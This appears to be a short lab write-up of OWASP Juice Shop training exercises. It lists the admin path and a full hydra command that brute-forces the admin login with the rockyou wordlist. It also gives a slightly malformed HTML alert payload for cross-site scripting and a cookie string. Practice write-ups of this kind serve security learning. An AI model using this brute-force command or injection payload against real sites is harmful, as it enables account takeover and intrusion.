 1-	The admin path  (https://juiceshop.herokuapp.com/#/administration)  
![{C5EB1965-CD9A-44E5-AD11-74A08718781B}](https://github.com/user-attachments/assets/1516fbdb-efe2-4b2e-a878-2ff7e3905850)



2-(hydra -l admin@juice-sh.op -P  /usr/share/wordlists/rockyou.txt juice-shop.herokuapp.com httppost-form  
"/rest/user/login:email=^USER^&password=^PASS^:F=Invalid email or password" -V -I -F 


![image](https://github.com/user-attachments/assets/61580b47-9d74-4394-80ea-ac97513c2b9a)


3-(<a href=”#”  oneclick=”alert(‘XSS’)”> OFFERS!!! </a>)
![image](https://github.com/user-attachments/assets/3bd63a29-c1a5-4edf-b64b-1f12cad7397b)

4-The cookie: 
(language=en;welcomebanner_status=dismiss;cookieconsent_st atus=dismiss) 
![image](https://github.com/user-attachments/assets/9eba5710-81ae-45e5-99b4-eeb9b052e58f)



